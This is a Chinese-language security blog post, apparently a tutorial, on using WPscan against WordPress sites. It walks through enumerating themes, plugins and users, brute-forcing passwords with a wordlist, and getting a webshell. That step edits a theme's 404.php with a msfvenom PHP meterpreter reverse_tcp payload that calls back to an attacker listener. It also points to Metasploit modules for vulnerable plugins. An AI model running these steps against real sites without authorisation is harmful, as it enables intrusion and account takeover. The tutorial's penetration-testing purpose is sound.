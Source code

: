```yaml
---
layout:     post
title:      WPscan使用总结
subtitle:   WPscan使用总结
date:       2019-09-05
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 工具使用
---
```

## 前言
最近在给某省教育厅的资产进行扫描时，发现一些网站建站程序用的是WordPress，于是就有了本文，本文主要记录了WPscan的一些用法；
## 更新wpscan
在使用WPscan前，它需要你更新到最新版本：
```
ruby wpscan.rb --update
```
![图片](../../../../img/wpscan_1.png)
## 扫描WorePress版本
扫描Wordpress搭建的网站：
```
wpscan -u http://127.0.0.1/
```
## 枚举WordPress主题
通过以下命令枚举网站安装的WordPress主题：
```
wpscan -u http://127.0.0.1/ --enumerate t
```
## 枚举WordPress易受攻击的主题
通过以下命令枚举网站安装的易受攻击的WordPress主题：
```
wpscan -u http://127.0.0.1/ --enumerate vt
```
## 枚举WordPress插件
通过以下命令枚举网站安装的WordPress插件：
```
wpscan -u http://127.0.0.1/ --enumerate p
```
## 枚举WordPress易受攻击的插件
通过以下命令枚举网站安装的易受攻击的WordPress插件：
```
wpscan -u http://127.0.0.1/ --enumerate vp
```
## 枚举WordPress用户名
通过以下命令枚举网站的用户名：
```
wpscan -u http://127.0.0.1/ --enumerate u
```
下图可以看到成功获取到了7个用户名：
## ![图片](../../../../img/wpscan_2.png)

## 使用Wpscan进行暴力攻击
通过上面的枚举用户名步骤，我们已知了用户名，因此只差爆破密码，输入以下命令开始爆破密码：
```
wpscan -u http://127.0.0.1/ --wordlist /root/Desktop/dict.txt --username test
```

## 一行命令枚举插件、主题、用户
上面的命令还是比较繁琐的，我们可以通过以下一行命令，“一键”枚举插件、主题、用户：
```
wpscan -u http://127.0.0.1/ -e at -e ap -e u
```
at：枚举目标网站的所有主题
ap：枚举目标网站的所有插件
u：枚举目标网站的所有用户名
## WordPress 后台Getshell
当我们通过一些弱口令/漏洞利用，进入后台后，通过后台拿WebShell的方法，这里推荐进入外观--编辑([http://127.0.0.1](http://127.0.0.1)[/wp-admin/theme-editor.php)](http://www.test.me/wp-admin/theme-editor.php))--修改404.php的代码(使用msfvenom生成php反弹shell)
```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444 -f raw
```
![图片](../../../../img/wpscan_3.png)

## 使用Metasploit利用易受攻击的插件
当我们通过WPscan扫到红色感叹号的提示信息时，我们可以搜索msf中是否存在这个利用脚本，来达到获取Shell的目的，下图是真实环境中某站存在的一个漏洞：
![图片](../../../../img/wpscan_4.png)

![图片](../../../../img/wpscan_5.png)

